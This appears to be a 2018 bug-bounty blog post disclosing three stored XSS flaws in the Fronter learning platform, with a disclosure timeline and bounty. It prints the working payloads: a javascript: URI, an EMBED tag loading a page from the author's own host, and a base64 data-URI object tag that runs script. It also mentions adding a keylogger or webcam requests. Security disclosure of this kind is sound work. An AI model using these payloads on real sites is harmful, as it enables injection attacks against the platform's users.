 ```yaml
---
title: "Fronter XSS - 3 XSS in 1 Blogpost"
date: "2018-04-06"
categories: 
  - "articles"
tags: 
  - "fronter"
  - "fronter-vulnerabilities"
  - "fronter-vulnerability"
  - "stored-xss"
coverImage: "fronter-xss-vulnerabilities.jpeg"
---
```


Today I want to write about Fronter and Fronter XSS Vulnerabilies. Fronter is a learning platform from leading ICT provider, itslearning. Based on Nordic educational models, Fronter is a comprehensive teaching and learning solution used in schools and universities worldwide. As part of the itslearning portfolio, the Fronter solution has a full range of available support and professional services.

I found lots of XSS vulnerabilities on Itslearning as you know, Fronter was the goal after Itslearning.

## Here is the story of 3 Fronter XSS Vulnerabilities 

[![fronter XSS](images/payload-3.jpg)](https://mustafakemalcan.com/wp-content/uploads/2018/04/payload-3.jpg)

Our first payload is very typcial one; javascript:alert(1)

Second payload is powered by EMBED; <EMBED SRC="[https://mustafakemalcan.com/](https://t.co/pO3Wu3kLxh "https://mustafakemalcan.com/webcam.html") " width= 100% height= 100%></EMBED>

Last payload is more complicated than the other ones ; <object data="data:text/html;base64,PHNjcmlwdD5wcm9tcHQoMSk8L3NjcmlwdD4=">

I can add keylogger and make webcam request like before that [stored XSS Itslearning vulnerability](https://mustafakemalcan.com/itslearning-xss-part-2/).

UPDATE :

02/04/2018 - I contacted to Fronter Team.

12/04/2018 - Fronter closed vulnerabilities.

07/05/2018 - Fronter decided to give 1200$ bounty to me.
